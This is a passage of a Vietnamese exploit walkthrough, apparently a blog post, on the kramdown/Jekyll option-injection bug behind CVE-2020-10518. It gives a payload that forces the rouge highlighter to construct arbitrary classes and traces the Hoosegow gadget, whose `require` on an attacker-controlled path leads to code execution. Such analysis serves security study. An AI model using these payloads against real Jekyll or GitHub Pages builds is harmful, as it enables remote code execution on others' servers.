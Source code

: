 ta có thể thêm vào file `./_config.yml`
```YML
kramdown:
  syntax_highlighter: rouge
  syntax_highlighter_opts:
    formatter: CSV
```
Hoặc sử dụng kramdown Document bằng cách thêm payload vào `./_posts/*.markdown`

```
{::options auto_ids="false" footnote_nr="5" syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: CSV, line_numbers: true\}" /}

~~~ ruby
def what?
  42
end
~~~

```
 Ở đây mình xài cách thứ 2 =)))))
 
 - ta tiến hành deploy jekyll page
 ```
 bundle exec jekyll serve
 ```
  *có thể bạn sẽ gặp lỗi "`require': cannot load such file -- webrick (LoadError)`" bạn cần thêm `gem "webrick"` vào Gemfile*
 
 - Ta thấy thông báo lỗi `private method 'format' called for #<CSV io_type:Hash encoding:UTF-8 lineno:0 col_sep:` Điều này chứng tỏ rằng class CSV đã được gọi tới.

#### Việc tiếp theo là xác định mình sẽ chọn method nào để khi gọi contructor thì có thể gây ra RCE?

Theo một bài viết phân tích [CVE-2020-10518](https://blog.csdn.net/smellycat000/article/details/109302520) sử dụng bug ở kramdown để gây ra RCE trên Github. Mình taget tới class Hoosegow:
- Ta thấy tại hàm `initialize` của Hoosegow có gọi tới `load_inmate_methods`
```ruby
def initialize(options = {})
    options         = options.dup
    @no_proxy       = options.delete(:no_proxy)
    @inmate_dir     = options.delete(:inmate_dir) || '/hoosegow/inmate'
    @image_name     = options.delete(:image_name)
    @ruby_version   = options.delete(:ruby_version) || RUBY_VERSION
    @docker_options = options
    load_inmate_methods
```
- Tại `load_inmate_methods` ta thấy nó có gọi ` require inmate_file`

```ruby
 def load_inmate_methods
    inmate_file = File.join @inmate_dir, 'inmate.rb'

    unless File.exist?(inmate_file)
      raise Hoosegow::InmateImportError, "inmate file doesn't exist"
    end

    require inmate_file

    unless Hoosegow.const_defined?(:Inmate) && Hoosegow::Inmate.is_a?(Module)
      raise Hoosegow::InmateImportError,
        "inmate file doesn't define Hoosegow::Inmate"
    end

    if no_proxy?
      self.extend Hoosegow::Inmate
    else
```